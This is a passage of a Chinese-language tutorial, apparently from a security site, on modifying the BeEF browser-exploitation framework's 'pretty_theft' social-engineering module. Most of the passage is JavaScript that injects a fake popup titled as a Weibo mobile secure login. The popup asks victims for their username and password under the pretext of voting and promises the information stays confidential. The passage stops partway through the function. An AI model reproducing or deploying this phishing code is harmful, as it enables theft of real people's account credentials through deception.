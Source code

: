 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/714bfea145bcc3d83b7f6540bda59cb62a8f2b50.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/d2068ec4447fb38d1c46d423e39df8661daa1b32.jpg)

上线页面已被修改

2、修改BeEFsocial_engineering模块
----------------------------

修改弹出对话框样式

将此文件use/share/beef-xss/modules/social_engineering/pretty_theft/command.js内容 对应部分替换如下：

```
// Facebook floating div
    function facebook() {

        sneakydiv = document.createElement('div');
        sneakydiv.setAttribute('id', 'popup');
        sneakydiv.setAttribute('style', 'position:absolute; top:30%; left:2%; z-index:51; background-

color:ffffff;');
        document.body.appendChild(sneakydiv);

        // Set appearance using styles, maybe cleaner way to do this with CSS block?
        var windowborder = 'style="width:330px;background:white;border:10px #999999 solid;border-

radius:8px"';
        var windowmain = 'style="border:1px #555 solid;"';
        var tbarstyle = 'style="color: rgb(255, 255, 255); background-color: rgb(255, 102, 0);font-size: 

13px;font-family:tahoma,verdana,arial,sans-serif;font-weight: bold;padding: 5px;padding-left:8px;text-align: 

left;height: 18px;"';
        var bbarstyle = 'style="color: rgb(0, 0, 0);background-color: rgb(242, 242, 242);padding: 

8px;text-align: right;border-top: 1px solid rgb(198, 198, 198);height:28px;margin-top:10px;"';
        var messagestyle = 'style="align:left;font-size:11px;font-family:tahoma,verdana,arial,sans-

serif;margin:10px 15px;line-height:12px;height:40px;"';
        var box_prestyle = 'style="color: grey;font-size: 11px;font-weight: bold;font-family: 

tahoma,verdana,arial,sans-serif;padding-left:30px;"';
        var inputboxstyle = 'style="width:140px;font-size: 11px;height: 20px;line-height:20px;padding-

left:4px;border-style: solid;border-width: 1px;border-color: rgb(255,102,0);"'; 
        var buttonstyle = 'style="font-size: 13px;background:#ff6600;color:#fff;font-weight:bold;border: 

1px #29447e solid;padding: 3px 3px 3px 3px;clear:both;margin-right:5px;"';

            var title = '微博手机版安全登录';
            var messagewords = '请输入您的用户名密码登录后进行投票。<br/><br/>我们将对您的投票信息严格保密。';
            var buttonLabel = '<input type="button" name="ok" value="登录" id="ok" ' +buttonstyle+ ' 

onClick="document.getElementById(\'buttonpress\').value=\'true\'" onMouseOver="this.bgColor=\'#00CC00\'" 

onMouseOut="this.bgColor=\'#009900\'" bgColor=#009900>';
```